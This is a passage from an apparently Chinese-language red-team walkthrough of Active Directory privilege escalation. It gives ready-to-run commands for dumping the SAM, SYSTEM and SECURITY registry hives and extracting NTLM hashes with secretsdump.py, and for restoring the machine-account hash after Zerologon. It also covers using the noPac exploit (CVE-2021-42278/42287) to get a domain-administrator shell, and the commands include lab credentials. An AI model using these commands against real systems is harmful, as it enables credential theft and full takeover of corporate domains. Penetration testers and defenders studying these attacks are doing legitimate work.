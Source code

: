 如果机器账户hash长时间为空，可能会导致脱域，对内网的使用产生重大影响，因此拿到权限的第一时间需要把hash重置回去,重置技巧参考[http://www.jianshu.com/p/525be0335404](http://www.jianshu.com/p/525be0335404)

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save

secretsdump.py解析保存在本地的ntml hash
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![http://www.jianshu.com/p/525be0335404](http://upload-images.jianshu.io/upload_images/13594675-1b65d1895ec379ab.png?imageMogr2/auto-orient/strip|imageView2/2/w/1200/format/webp)

对hash进行修复

[**reinstall_original_pw.py** ](http://github.com/risksense/zerologon/blob/master/reinstall_original_pw.py)

`python3 reinstall_original_pw.py owa 10.10.10.8 9774cb9c026d03f8157bfdf6a9352342`

##### 4.CVE-2021-42278&CVE-2021-42287

利用两个漏洞的组合拳可将域普通权限提升为域管权限

EXP:[http://github.com/Ridter/noPac](http://github.com/Ridter/noPac)

检测漏洞

`python3 scanner.py redteam.red/sqlserver:Server12345 -dc-ip 10.10.10.8 -use-ldap`

![](http://qn.laohuan.xin/2021-12-14_22-29.png)

获取shell

`python3 noPac.py redteam.red/saul:'admin!@#45' -dc-ip 10.10.10.8 -dc-host owa -shell --impersonate administrator -use-ldap`

![](http://qn.laohuan.xin/2021-12-18_14-03-nopac1.png)

![](http://qn.laohuan.xin/2021-12-18_14-03-nopac2.png)

### 0x4.参考链接

* http://mp.weixin.qq.com/s?__biz=Mzg5OTYxMjk0Mw==&mid=2247485589&idx=1&sn=f7bb516c4162c30a129a51a7f799c35d
* http://1oecho.github.io/GxKPsWfW5/
* http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650533004&idx=3&sn=9e23fbd52bf574e654410bf280db7e97
* http://mp.weixin.qq.com/s/WaRECg79Nxx08iekakrlMA
* http://mp.weixin.qq.com/s?__biz=MzkyMzI3OTY4Mg==&mid=2247485180&idx=1&sn=118357735fea03756626bb0a6b373c09
* http://mp.weixin.qq.com/s?__biz=MzIxOTM2MDYwNg==&mid=2247508471&idx=2&sn=59395b48ddcd162906f7853f2b0fdf3f
* http://cloud.tencent.com/developer/article/1764454
* http://www.freebuf.com/articles/web/304534.html
* http://blog.csdn.net/qq_41874930/article/details/108825010
* http://xz.aliyun.com/t/10189#toc-31
* http://mp.weixin.qq.com/s/AQA1wOYtOcCkHLzVfBna9A
* http://www.jianshu.com/p/525be0335404
* http://teamssix.com/211027-163641.html

